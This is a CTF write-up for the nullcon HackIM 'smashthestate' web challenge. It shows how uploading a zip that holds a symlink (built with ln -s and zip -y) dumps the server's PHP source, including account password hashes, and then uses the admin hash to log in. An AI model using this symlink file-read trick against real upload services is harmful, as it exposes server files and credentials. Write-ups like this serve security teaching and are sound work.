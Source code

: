 # nullcon HackIM : smashthestate

**Category:** Web
**Points:** 400
**Solves:**
**Description:**

> This beautiful website for testing zip files contains a replica of a vulnerability found in a well known bug bounty site.
>
> Log in with rob:smashthestate then exploit the vulnerability to gain access to the 'admin' account and the flag.
>
> Automated tools and bruteforcing will not help you solve this challenge.
>
>
> <http://54.152.101.3/>

[index.php](./index.php)
## Write-up

**by d1rt**

Logging into the server with the `rob:smashthestate` combo takes you to a form that promises to allow you to upload and confirm zip file contents, if you upload a zip file containing a directory you'll be given an error from the `cat` command printed on screen.

`cat: /var/www/html/tmp/upload_18vrn198vcn191nv1/test: Is a directory`

Make a local symlink, then store it in a zip file that preserves symlinks

```
$ ln -s ../../index.php flag
$ zip -y flag.zip flag
  adding: flag (stored 0%)
```

Upload this to the server and you'll get the source code of `index.php` dumped to the page

```
<!--?php
$FAKE_DATABASE = array (
    "rob" =--> "60df0ab1a78fd0d95a4cfa4b0854931b", // smashthestate
    "admin" =&gt; "6ec4b9f5cd1d4fd45746f8e592aa321e",
);
$page = $_GET['page'];

switch ($page) {
    case "login":
        echo "trying to log in";
        $user = $_POST['user'];
        $pass = $_POST['pass'];
...snip...
```

There is a section the appears to dump the flag:

```
    case "admin_login_help":
        session_start();
        if(!isset($_SESSION['login_code']) ){
            $_SESSION['login_code'] = bin2hex(openssl_random_pseudo_bytes(18));
            echo "khack has disabled zis function, please click <a href="?page=code_submit">here</a>\n";
        }
        else {
            echo "khack has disabled the function for zis session";
        }
        break;
    case "code_submit":
        session_start();
        $code = $_POST['code'];
        if (isset($code) &amp;&amp; isset($_SESSION['login_code'])) {
            if ($code == "khack" ){
                echo "Flag: ";
                passthru("sudo /bin/cat /var/www/html/flag");
            }
            else {
                echo "Invalid code";
            }
        }
        else {
            echo "<form action="?page=code_submit" method="POST">Please input the login code:<input name="code"><input type="submit" value="submit"></form>";
        }
```

**it is a lie and always dumps an empty flag**

just submit the md5i hash of the admin password, done.


## Other write-ups and resources

* <http://losfuzzys.github.io/writeup/2016/02/02/hackim2016-smashthestate400/>

